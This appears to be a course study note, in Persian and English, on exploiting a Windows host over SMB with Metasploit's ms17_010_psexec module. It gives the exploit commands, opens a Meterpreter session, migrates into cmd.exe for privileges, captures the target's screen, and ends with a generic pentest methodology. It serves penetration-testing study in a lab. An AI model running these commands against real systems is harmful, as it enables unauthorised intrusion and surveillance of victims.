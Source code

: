 4. *Launch Exploit to give Meterpreter Accessing to target windows machine*
	1. `msf6 exploit(windows/smb/ms17_010_psexe)> exploit`
	2. `meterpreter >`\
		1. ![[Pasted image 20240710171720.png]]
5. *Some `Meterpreter` Commands*
	1. `meterpreter > ps` Show all process run in target machine
		1. ![[Pasted image 20240710171844.png]]
		2. ![[Pasted image 20240710171919.png]]
	2. `meterpreter > screenshot` Take Screenshot from target machine
		1. اگر در ارای این کامند با این خطا مواجه شدیم بدین معناست که دسترسی های لازم را برای انجام اینکار نداریم. برای حل این چالش باید به یک پروسه دیگر مهاجرت کنیم که به این کار Process Migration گفته میشود.
			1. ![[Pasted image 20240710172143.png]]
		2. مثلا میتوان به `cmd.exe` مهاجرت کنیم. برای اینکار نیاز به Process ID پروسه `cmd.exe` داریم. پس از برداشتن Process ID برای مهاجرت به آن مانند زیر عمل میکنیم.
	3. `meterpreter > migrate 4564` Migrate from a process to another process, here migrating to `cmd.exe` for Escalation Privilege
		1. پس از اینکه Migrate پایان یافت، در واقع دسترسی ما از Memory CMD گرفته شده است که در نتیجه Full Access داریم، حال میتوانیم با موفقیت Screenshot را از ماشین تارگت بگیریم.
	4. `meterpreter > screenshot` Now we can get screenshot from target display
		1. ![[Pasted image 20240710172741.png]]
	5. Screenshot Saved in `/root/screenshot.jpeg`
		1. `mv /root/screenshot.jpeg /home/kali/`
		2. Now go to home/kali and open image
			1. ![[Pasted image 20240710172933.png]]
6. Hacking done.
-----
```sh Terminaal 1 Scaning and start metasploit
nmap -A -sC 192.168.1.2
sudo msfconsole
```
----
```sh Terminal 2 for msfconsole
msf6> search internal
msf6> use exploit/windows/smb/ms17_010_psexec
msf6 exploit(windows/smb/ms17_010_psexe)> options
msf6 exploit(windows/smb/ms17_010_psexe)> set RHOST 192.168.1.2
msf6 exploit(windows/smb/ms17_010_psexe)> set LHOST 192.168.1.4
msf6 exploit(windows/smb/ms17_010_psexe)> exploit
"now exploit launching and we get Meterpreter accessing to target machine"
#-----Meterpreter------#
meterpreter > ps #Show all process run in target machine
meterpreter > screenshot
"if got error, we should Migrate to Another Process like cmd.exe"
meterpreter > ps #copy Process ID of cmd.exe
meterpreter > migrate 4564 #4564 is Process ID of cmd.exe
"now we can get screenshot from target machine"
meterpreter > screenshot
```
### Pentesting Methodology for Systematic Pentesting - E48
#### Penetration Testing Methodology
- متدلوژی و یا روشی که برای تست نفوذ انجام میشود، بسته به هدفی که Pentester دارد متفاوت میباشد. 
- در مثال Pentester برای نفوذ و ضربه زدن به یک وبسایت از روش خاص نفوذ به وبسایت استفاده میکند و برای نفوذ به یک شبکه LAN داخلی نیز از متدلوژی خاض نفوذ به شبکه های LAN استفاده میکند.
- در واقع میتوان گفت یک Pentester، چندین متدلوژی مختلف دارد که از هر کدام در مکان مختلفی بر اساس هدف تست نفوذ، استفاده میکند.
- قدم ها و استپ های اصلی تمام متدلوژی ها یکسان است اما جزئیات هر مرحله متفاوت میباشد. در هر Methodology با هر هدفی قدم های زیر راباید طی کنیم >>
	1. Scanning for finding Services and gathering Information from target
	2. Find for Vulnerability base on Active Services on target machine
	3. Exploitation the Vulnerability to gain access 
	4. Post-Exploitation Phase like Escalation Privileges 
- *اسلاید*: